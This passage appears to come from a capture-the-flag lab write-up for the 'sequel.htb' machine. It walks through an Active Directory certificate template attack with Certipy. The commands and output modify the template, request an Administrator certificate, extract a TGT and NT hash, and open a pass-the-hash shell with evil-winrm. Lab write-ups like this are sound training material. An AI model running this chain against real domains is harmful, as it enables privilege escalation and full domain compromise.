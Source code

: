 ### Modify the vulnerable template
```shell
❯ KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip $ip -target dc01.sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

### Request certificate for Administrator user
```shell
❯ certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip $ip -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns $ip -dns $ip
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 25
[*] Got certificate with multiple identifications
    UPN: 'Administrator@sequel.htb'
    DNS Host Name: '10.129.166.148'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
```

### Get TGT ticket for Administrator user
```shell
❯ certipy-ad auth -pfx administrator_10.pfx -domain sequel.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.129.166.148'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': ******************:******************
```

### SHELL :)
```shell
❯ evil-winrm -i $ip -u Administrator -H ******************
```